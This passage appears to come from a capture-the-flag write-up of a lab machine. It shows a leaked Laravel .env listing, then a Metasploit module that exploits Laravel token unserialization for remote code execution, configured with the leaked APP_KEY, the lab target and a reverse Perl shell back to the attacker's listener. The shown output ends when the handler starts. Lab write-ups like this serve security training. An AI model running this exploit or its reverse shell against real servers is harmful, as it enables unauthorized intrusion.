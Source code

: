 ```
CACHE_DRIVER "file"
SESSION_DRIVER "file"
SESSION_LIFETIME "120"
QUEUE_DRIVER "sync"
REDIS_HOST "127.0.0.1"
REDIS_PASSWORD "null"
REDIS_PORT "6379"
MAIL_DRIVER "smtp"
MAIL_HOST "smtp.mailtrap.io"
MAIL_PORT "2525"
MAIL_USERNAME "null"
MAIL_PASSWORD "null"
MAIL_ENCRYPTION "null"
PUSHER_APP_ID ""
PUSHER_APP_KEY ""
PUSHER_APP_SECRET ""
PUSHER_APP_CLUSTER "mt1"
MIX_PUSHER_APP_KEY ""
MIX_PUSHER_APP_CLUSTER "mt1"
```

By searching for `laravel api key exploit` I found this
[metasploit exploit](https://www.exploit-db.com/exploits/47129).

The RCE exploit requires the APP_KEY but we just get it through the leak.

```
msf6 exploit(unix/http/laravel_token_unserialize_exec) > options

Module options (exploit/unix/http/laravel_token_unserialize_exec):

   Name       Current Setting                               Required  Description
   ----       ---------------                               --------  -----------
   APP_KEY    dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=  no        The base64 encoded APP_KEY string from the .env file
   Proxies                                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.215                                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                                            yes       The target port (TCP)
   SSL        false                                         no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                                             yes       Path to target webapp
   VHOST      dev-staging-01.academy.htb                    no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.115     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf6 exploit(unix/http/laravel_token_unserialize_exec) > run

[*] Started reverse TCP handler on 10.10.14.115:4444
```